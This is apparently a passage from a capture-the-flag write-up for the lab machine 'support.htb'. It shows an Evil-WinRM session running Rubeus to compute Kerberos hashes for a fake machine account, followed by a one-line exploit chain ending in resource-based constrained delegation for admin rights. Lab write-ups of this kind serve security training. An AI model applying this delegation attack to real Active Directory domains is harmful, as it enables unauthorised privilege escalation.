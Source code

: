 ```console
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /user:QWE$ /password:imqwe /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: Calculate Password Hash(es)

[*] Input password             : imqwe
[*] Input username             : QWE$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostqwe.support.htb
[*]       rc4_hmac             : A36C56F10C348AD4C791364070701120
[*]       aes128_cts_hmac_sha1 : C5CB86C91ED9E8FE0A068C3431E52013
[*]       aes256_cts_hmac_sha1 : 3843CFD7706AA83BF647A3D9F9E185738B7CAA7B6DD1FFD5583320F6761960C0
[*]       des_cbc_md5          : CBE5E367402A7C31
```

## Exploit Chain

port scan -> samba service with binary file -> ldap cmd injection -> password ecnryption -> ldap credential with winrm -> Resource-Based Constrained Delegation -> admin priv
